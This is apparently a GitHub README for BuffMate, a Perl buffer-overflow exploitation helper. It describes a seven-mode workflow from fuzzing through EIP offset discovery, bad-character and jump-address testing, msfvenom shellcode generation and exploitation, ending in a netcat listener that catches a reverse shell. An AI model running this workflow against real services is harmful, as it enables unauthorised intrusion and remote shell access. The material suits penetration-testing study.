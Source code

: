 # BuffMate

Note: This tool is a work in progress, as I learn more about buffer overflows. Buffmate currently only works as an all-in-one solution with certain buffer overflows, matching the following conditions:

* Overflow is triggered by an optional string/command, followed by a buffer of "A"s.
* 400+ bytes is available for shellcode after the EIP address is overwritten (the "C" part of the buffer).
* Testing for bad characters can be performed in the "C" part of the buffer.
* The application consistently crashes when the "C" buffer length is changed.

BuffMate is a Perl utility that assists in the process of creating simple buffer overflow exploits. The entire process from fuzzing to exploitation is streamlined into one tool. Only core Perl modules are utilized for mobility and speed.

Certain offensive dependencies are required, such as metasploit-framework and msfvenom. It is recommended that you run this tool on a Kali system which includes these tools.

## Help
```
BuffMate - Perl Buffer Overflow Tool | Steve Collmann - stevcoll@gmail.com

Options:
   -m, --mode            Program mode. See "Modes" below for details.
   -l, --local           Local client address and port (IPv4), colon delimited.
   -r, --remote          Remote server address and port (IPv4), colon delimited.
   -s, --string          String to send before buffer. Multiple strings supported. Optional.
   -o, --offset          Loose offset from fuzzing or exact offset from EIP byte match.
   -b, --bad             Bad character to exclude in payload. Multiple parameters supported.
   -j, --jump            Memory jump return address. Automatically converted to little endian.
   -i, --increment       Step increment for fuzzer. Default: 200 bytes.
   -v, --verbose         Show remote server responses to socket sends.

Examples:
   ./buffmate.pl -m 1 -r 10.0.0.1:80 -s "PWD "                     ## Fuzz remote server
   ./buffmate.pl -m 2 -r 10.0.0.1:80 -s "PWD " -o 140              ## Locate EIP offset
   ./buffmate.pl -m 3 -r 10.0.0.1:80 -s "PWD " -o 136              ## Verify EIP offset
   ./buffmate.pl -m 4 -r 10.0.0.1:80 -s "PWD " -o 136 -b \x15      ## Test and remove bad chars
   ./buffmate.pl -m 5 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Test jump address
   ./buffmate.pl -m 6 -l 192.168.1.1:443 -b \x15 -b \x35           ## Generate shellcode
   ./buffmate.pl -m 7 -r 10.0.0.1:80 -s "PWD " -o 136 -j 39D421E6  ## Exploit server

Modes:
   * [1] Fuzzing  
     - Buffer can be sent with or without prepended strings (e.g. "AUTH ").
     - Multiple prepended strings can be sent (e.g. -s "USER " -s "PASS ").
     - Identify buffer size in bytes which causes an exception on service.
   * [2] EIP Match
     - Attach debugger to service and run tool with offset found in fuzzing mode.
     - Ensure prepended string option is used for all stages if required.
     - After service exception debugger should display unique EIP address.
     - Enter unique EIP address into tool and identify exact EIP offset.
   * [3] EIP Verify
     - Attach debugger to service and run tool with exact offset found in EIP match.
     - Verify EIP is overwritten with "B" or "\x42" characters.
     - Verify space for shellcode in "C" or "\x43" characters. (i.e. ~400 bytes).
   * [4] Char Test
     - Attach debugger to service and run tool with discovered offset.
     - Check debugger for evidence of bad characters corrupting the buffer.
     - Remove any bad characters with tool and rerun char test as appropriate.
   * [5] Jump Test
     - Utilize debugger to locate module with no memory protections.
     - Locate appropriate memory address to jump to in discovered module.
     - Ensure memory address contains no bad characters.
     - Attach debugger to service and set breakpoint at jump memory address.
     - Run tool with new jump address and bad char options.
     - Ensure debugger stops at breakpoint and execution redirects to "C" or "\x43".
   * [6] Generate Shellcode
     - Run tool with local (attacking) host and bad char options to generate shellcode.
     - Copy and paste enter $shellcode variable output into top of tool code.
   * [7] Exploit Server
     - Start service on local host with appropriate options (e.g. nc -vlnp 443).
     - Run tool with remote host, offset, jump address, and bad char options.
     - Reverse shell should appear on local host.
```

## Author
Steve Collmann, stevcoll@gmail.com
